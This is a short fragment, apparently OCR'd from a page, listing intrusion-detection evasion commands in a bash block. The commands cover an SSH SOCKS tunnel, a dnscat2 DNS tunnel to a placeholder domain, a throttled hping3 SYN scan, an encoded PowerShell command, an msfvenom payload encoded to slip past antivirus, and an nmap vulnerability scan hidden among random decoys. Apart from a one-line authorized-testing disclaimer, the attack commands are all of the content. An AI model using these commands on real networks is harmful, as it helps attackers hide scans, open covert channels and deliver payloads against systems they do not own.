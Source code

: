 ```bash
ssh -D 1080 user@server

# DNS tunnel
./dnscat2 tunnel.domain.com

# Session splicing with delay
hping3 -S -p 80 -i u100000 target.com

# Unicode bypass
powershell -EncodedCommand <base64_unicode>

# Polymorphic payload
msfvenom -e x86/shikata_ga_nai -i 5 -f exe

# False positive generation
nmap --script vuln -D RND:20 target_range
```

---

**Note:** These commands are provided for educational purposes and authorized penetration testing only. Always ensure you have proper authorization before using these techniques on any network or system.
